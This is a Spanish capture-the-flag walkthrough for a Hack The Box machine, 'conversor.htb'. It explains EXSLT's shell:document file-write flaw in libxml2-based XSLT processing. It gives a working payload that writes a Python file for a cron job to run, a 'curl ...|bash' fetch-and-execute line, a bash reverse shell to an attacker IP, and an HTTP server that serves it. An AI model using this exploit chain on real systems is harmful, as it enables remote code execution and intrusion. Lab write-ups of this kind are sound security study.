 ### XSLT - EXSLT (Write File)

Es un conjunto de extensiones del lenguaje XSLT (Transformaciones Extensibles de Lenguaje de Hojas de Estilo).

1. XSLT -> Es un lenguaje de programación (sorprendentemente complejo) escrito en XML, diseñado para transformar un documento XML a otro formato (como HTML).
2. ¿Qué es libxml2? Es la biblioteca C subyacente que utiliza el módulo lxml de Python (y muchos otros analizadores) para manejar XML y XSLT.
3. ¿Qué es EXSLT? Se trata de un conjunto de extensiones de XSLT para dotarlo de mayor potencia (como funciones de fecha y hora, manipulación de cadenas, etc.).
4. Vulnerabilidad: libxml2 admite un espacio de nombres XSLT peligroso: http://exslt.org/common. Este espacio de nombres incluye la función `<shell:document>`. Esta función permitía que la transformación XSLT generara su resultado en varios archivos.
5. PoC: El atributo href de `<shell:document>` es vulnerable. Puede aceptar una ruta de archivo absoluta. El procesador XSLT (ejecuta como www-data) escribira sin problemas el contenido de la etiqueta shell:document en cualquier archivo del sistema que tenga permisos de escritura.

Sabiendo todo esto buscar un metodo de intrusion es sencilla, vamos a crear un archivo `xml` con nmap y tambien vamos a sacar el exploit que se encuentra en `Payload All The Things`

```bash
nmap -sC -oX nmap.xml 10.129.123.234
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:shell="http://exslt.org/common" 
  extension-element-prefixes="shell"
  version="1.0">
  <xsl:template match="/">
    <shell:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
import os
os.system("curl 10.10.16.16|bash")      
    </shell:document>
  </xsl:template>
</xsl:stylesheet>
```


Este `XSLT` va a escribir un archivo .py en la carpeta `/var/www/conversor.htb/scripts/`, existe una tarea cron antes mencionada que se ejecuta cada 1 minuto.

Esta tarea se va a ejecutar y me dara acceso al sistema

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.16/443 0>&1
```

Crearemos este pequeño script y guardarlo como index.html en nuestro sistema y en la misma carpeta donde tenemos este script vamos levantar un servidor con python

```bash
python3 -m http.server 80
```
